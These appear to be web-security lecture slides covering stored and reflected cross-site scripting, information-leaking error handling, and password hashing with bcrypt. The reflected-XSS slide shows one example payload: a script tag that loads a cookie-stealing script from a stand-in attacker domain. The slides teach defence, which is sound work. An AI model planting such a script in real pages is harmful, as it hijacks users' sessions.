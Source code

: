 Note:
* everyone who loads the page will load that script
* the script will be loaded under the origin news.example.com
* will have access to news.example.com cookies, can steal anyones session!
* Solutions?

-###-

## Cross-site scripting attacks: reflected attack

* Mallory notices that when she searches example.com for "puppies", the following happens:
* She taken to the page example.com/?q=puppies
* She is show a page that simply says "puppies not found!"
* What could happen if Mallory searches for:

```
<script src="http://mallorysevilsite.com/authstealer.js"></script>
```

-###-

## Site design: Error handling

* Consider login controller from minitwit
* Try to view a private GitHub repo in incognito mode

Note:
* with private repos: confidentiality of content and existence
* What if login told you how many characters were wrong?

-###-

## Data storage: Passwords

* Assertion: You (as a server operator) should know a user's password
* Assertion: Your application should know a user's password

-###-

## Data storage: Passwords

* How can they log in?
* Store hashes of the password!
* If you ever click "forgot password" on a site, and they email you back your password, don't trust that site!

Note:
* Need to protect the user passwords in case your database is compromised
* note hash functions in general will be fast to compute
* use bcrypt()!

-###-

## Hashed password login
